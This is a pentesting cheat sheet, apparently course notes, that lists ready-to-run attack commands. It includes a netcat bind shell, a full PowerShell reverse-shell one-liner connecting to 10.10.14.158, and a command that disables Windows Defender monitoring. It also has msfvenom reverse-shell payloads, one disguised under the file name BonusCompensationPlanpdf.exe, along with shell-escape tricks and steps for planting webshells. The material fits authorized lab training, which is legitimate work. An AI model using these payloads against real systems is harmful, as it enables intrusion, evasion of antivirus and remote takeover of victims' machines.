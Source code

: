 ## **Bind Shells**
With a bind shell, the target system has a listener started and awaits a connection from a pentester's system (attack box).
1. Server - Binding a Bash shell to the TCP session: `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f`
2. Connecting to bind shell on target: `nc -nv 10.129.41.200 7777`
## **Reverse Shells**
With a reverse shell, the attack box will have a listener running, and the target will need to initiate the connection.
1. Server (attack box): `sudo nc -lvnp 443`
2. Client (target): `powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`
3. If Windows Defeneder stopped comunnication: `Set-MpPreference -DisableRealtimeMonitoring $true`
## **Payloads**
1. Powershell One-liner: `powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`
2. Bash onliner: `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f`
### **Crafting Payloads with MSFvenom**
1. List Payloads: `msfvenom -l payloads`
2. Building A Stageless Payload for Linux: `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf`
3. Building a simple Stageless Payload for a Windows system: `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe`
### **Spawning Interactive Shells**
1. `/bin/sh -i`
2. Perl To Shell:
    1. `perl —e 'exec "/bin/sh";'`
    2. `perl: exec "/bin/sh";`
3. Ruby To Shell: `ruby: exec "/bin/sh"`
4. Lua To Shell: `lua: os.execute('/bin/sh')`
5. AWK To Shell: `awk 'BEGIN {system("/bin/sh")}'`
6. Using Find For A Shell: `find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;`
7. Using Exec To Launch A Shell: `find . -exec /bin/sh \; -quit`
8. Vim To Shell: `vim -c ':!/bin/sh'`
### **Execution Permissions Considerations**
Use `sudo -l` to find services you can run as root. Use `ls -la` to check permission.
### **Laudanum, One Webshell to Rule Them All**
1. `cp /usr/share/laudanum/aspx/shell.aspx /home/tester/demo.aspx`
### **Antak Webshell**
1. `cp /usr/share/nishang/Antak-WebShell/antak.aspx /home/administrator/Upload.aspx`
2. Modify the Shell for Use (username and password)


